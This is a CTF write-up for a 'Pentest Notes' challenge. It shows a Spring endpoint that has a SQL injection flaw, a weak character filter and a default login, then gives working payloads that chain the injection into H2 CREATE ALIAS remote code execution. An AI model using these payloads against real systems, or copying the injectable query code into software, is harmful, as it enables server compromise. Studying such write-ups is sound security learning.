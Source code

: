 # Pentest Notes

## Solutions
```sql
INSERT INTO users (id, username,password) VALUES (1, 'user', '123');
```
We can login using default user account
```java
    @PostMapping("/note")
    public ResponseEntity < ? > noteByName(@RequestParam String name, HttpSession httpSession) {
        if (httpSession.getAttribute("username") == null) {
            return ResponseEntity.status(HttpStatus.UNAUTHORIZED).body("unauthorized");
        }
        if (name.contains("$") || name.toLowerCase().contains("concat")) {
            return ResponseEntity.status(HttpStatus.FORBIDDEN).body("Bad character in name :)");
        }
        String query = String.format("Select * from notes where name ='%s' ", name);
        List < Object[] > resultList = entityManager.createNativeQuery(query).getResultList();
        List < Map < String, Object >> result = new ArrayList < > ();
        for (Object[] row: resultList) {
            Map < String, Object > rowMap = new HashMap < > ();
            rowMap.put("ID", row[0]);
            rowMap.put("Name", row[1]);
            rowMap.put("Note", row[2]);
            result.add(rowMap);
        }
        return ResponseEntity.ok(result);
    }
```
First glance at the note function, we can see that there is no restriction for name parameter. And after i put a ' OR 1=1; in the payload, it return all the notes. So that it is a SQLi, and we need somehow to chain this to RCE so that we can read the flag.
After searching around, i saw a interesting [writeup](https://medium.com/r3d-buck3t/chaining-h2-database-vulnerabilities-for-rce-9b535a9621a2).

So for short, H2 database allows us to create a function that execute Java code through ALIAS
```sql
CREATE ALIAS EXECVE AS $$ String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }$$;
```
So here is our function but there are some conditions.
```java
        if (httpSession.getAttribute("username") == null) {
            return ResponseEntity.status(HttpStatus.UNAUTHORIZED).body("unauthorized");
        }
        if (name.contains("$") || name.toLowerCase().contains("concat")) {
            return ResponseEntity.status(HttpStatus.FORBIDDEN).body("Bad character in name :)");
        }
```
We cannot use `$` or the `CONCAT` function. Fortunately, we can bypass this restriction since the `CREATE ALIAS` expects a String, so we don't need to use `$`.
So out payload would be 
```sql
'CREATE ALIAS EXECVE AS 'String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }';--
```
After injecting this function to the database,what we need now is just call out the function.
```sql
' UNION SELECT NULL,NULL,EXECVE('ls') AS note;--
```
We need to 2 first null so that it can match the collumns

![Executin](https://github.com/tunsimp/CTF/blob/main/HTB/Pentest%20Notes/screenshot.png)


